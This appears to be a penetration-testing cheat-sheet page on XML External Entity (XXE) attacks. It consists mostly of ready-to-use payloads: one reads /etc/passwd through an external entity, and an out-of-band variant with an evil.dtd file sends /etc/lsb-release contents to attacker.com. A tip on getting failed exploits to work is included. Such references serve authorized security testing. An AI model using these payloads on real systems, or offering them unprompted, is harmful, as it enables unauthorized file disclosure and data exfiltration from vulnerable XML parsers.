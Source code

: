 # XXE

```markup
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<Content>&xxe;</Content>
</root>
```

Ensure that regardless of the format of your xml files, that there is only one root node.  Several parsers will refuse to validate the file and will error in the event of multiple root nodes.  As with all exploits, this isn't always the case, but if your exploit fails, this would be a good thing to ensure.

## Out-of-band XXE

```markup
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

#### evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

#### References

[Acunetix - Out-of-band XML External Entity \(OOB-XXE\)](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)

